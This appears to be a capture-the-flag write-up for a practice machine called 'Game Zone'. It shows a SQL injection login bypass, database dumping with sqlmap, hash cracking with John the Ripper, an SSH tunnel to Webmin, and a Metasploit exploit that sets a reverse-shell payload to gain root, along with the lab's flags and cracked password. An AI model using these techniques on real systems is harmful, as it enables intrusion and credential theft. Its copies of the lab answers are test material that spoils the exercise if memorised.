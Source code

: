 # Game Zone - Easy

1. [Introduction](#introduction)
2. [Obtain access via SQLi](#obtain-access-via-sqli)
3. [Using SQLMap](#using-sqlmap)
4. [Cracking password with JTR](#cracking-password-with-jtr)
5. [Exposing services with reverse SSH tunnels?](#exposing-services-with-reverse-ssh-tunnels)
6. [Privilege Escalation with Metasploit](#privilege-escalation-with-metasploit)

## Introduction

```markdown
1. What is the name of the large cartoon avatar holding a sniper on the forum? - Agent 47
```

## Obtain access via SQLi

```markdown
We can login using SQLi

Username: ' or 1=1 -- -

We can leave the password field blank and login.
```

```markdown
1. When you've logged in, what page do you get redirected to? - portal.php
```

## Using SQLMap

```shell
sqlmap -r portalreq.txt --dbms=mysql --dump
#uses intercepted request to dump database
```

```markdown
As given, we have to use Burp Suite to capture the POST request in portal.php, and save the request to a file.

Then, we have to pass this file into SQLMap
```

```markdown
1. In the users table, what is the hashed password? - ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14

2. What was the username associated with the hashed password? - agent47

3. What was the other table name? - post
```

## Cracking password with JTR

```shell
john --format=Raw-SHA256 --wordlist=/usr/share/wordlists/rockyou.txt gamehash.txt
#cracks the hash found in previous step

#we can try ssh login using this password
ssh agent47@10.10.139.234

cat user.txt
```

```markdown
1. What is the de-hashed password? - videogamer124

2. What is the user flag? - 649ac17b1480ac13ef1e4fa579dac95c
```

## Exposing services with reverse SSH tunnels?

```shell
#view socket connections in remote machine
ss -tulpn

#in host machine
ssh -L 10000:localhost:10000 agent47@10.10.139.234

#now we can go to localhost:10000 for remote access to webserver
```

```markdown
1. How many TCP sockets are running? - 5

2. What is the name of the exposed CMS? - Webmin

3. What is the CMS version? - 1.580
```

## Privilege Escalation with Metasploit

```shell
msfconsole

search 1.580
#we can also search for webmin

use exploit/unix/webapp/webmin_show_cgi_exec

show options

set PASSWORD videogamer124

set RHOSTS 127.0.0.1
#since we are accessing webmin on localhost

set USERNAME agent47

set PAYLOAD cmd/unix/reverse

set LHOST 10.10.46.199

set SSL false

run
#gives root access

cd /root

cat root.txt
```

```markdown
1. What is the root flag? - a4b945830144bdd71908d12d902adeee
```
